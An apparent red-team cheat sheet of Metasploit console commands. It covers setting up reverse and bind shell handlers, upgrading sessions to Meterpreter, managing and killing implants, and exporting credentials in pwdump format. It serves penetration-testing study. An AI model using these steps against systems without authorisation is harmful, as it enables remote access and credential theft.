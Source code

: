 ```yaml
---
author(s):
  - Userware
tags:
  - metasploit-framework
  - command-and-control
  - living-off-the-land
---
```

# Metasploit

> [!NOTE]
>  You can use regular one-liners or create your own custom regular payloads. So use it more often. Further more, you can use the [[Resource|meta shell's]] `resource` to automate commands in a faster pace.

## 01 - Multi Handler

### 1.1 - Setting up a Generic TCP listener

#### 1.1.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.1.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.2 - Setting up a Linux TCP listener

#### 1.2.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/x64/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.2.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/x64/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.3 - Setting up a Windows TCP listener

#### 1.3.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.3.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 02 - List Implants

```
msf > sessions -l
```

List implants with verbose.

```
msf > sessions -v
```

## 03 - Switch Interactive Implants

### 3.1 - Metepreter

```
msf > sessions <session_ID>
```

### 3.2 - Meta Shell

```
sessions <session_ID>
```

## 04 - Upgrade to Meterpreter Session

Another benefit is by converting regular shells to meterpreter whenever in various circumstances that you might need it.

```
msf > use post/multi/manage/shell_to_meterpreter

msf post(multi/manage/shell) > options

msf post(multi/manage/shell) > set technique <powershell | vbs>

msf post(multi/manage/shell) > set payload_override windows/meterpreter/reverse_tcp

msf post(multi/manage/shell) > set platform_override windows

msf post(multi/manage/shell) > set psh_arch_override x64

msf post(multi/manage/shell) > run session=<session_ID>
```

Here's a shorter command.

```
msf > sessions -u <session_ID>
```

## 05 - Workspace

Add new workspace.

```
msf > workspace -a new_workspace
[*] Added workspace: new_workspace
[*] Workspace: new_workspace
```

Rename workspace.

```
msf > workspace -r default renamed_workspace
[*] Renamed workspace 'default' to 'renamed_workspace'
```

List available workspaces.

```
msf > workspace [-l]
default
new_workspace
renamed_workspace
```

Search a specific workspace names.

```
msf > workspace -s <workspace>
```

Delete a specific workspace.

```
msf > workspace -d <workspace>
```

Delete all workspaces.

```
msf > workspace -D <workspace>
```

## 06 - Export Database

```
msf > db_export -f <xml | pwdump> output.<xml | pwdump>
```

^1329b2

## 07 - Detach Implant

> [!INFO]
> This feature works to only HTTP and HTTPS listeners.

```
meterpreter > detach
```

## 08 - Terminate Implant

Terminate current implant.

```
meterpreter > quit

meterpreter > exit
```

Terminate specific implant.

```
msf > session -k <session_ID>
```

Terminate all implants.

```
msf > sessions -K
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Upgrading shells to Metepreter](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)

### Hacking Articles

- [Hacking Articles: How to Upgrade Command Shell to Meterpreter](https://www.hackingarticles.in/command-shell-to-meterpreter/)

- [Hacking Articles: Metasploit for Pentester Database Workspace](https://www.hackingarticles.in/metasploit-for-pentester-database-workspace/)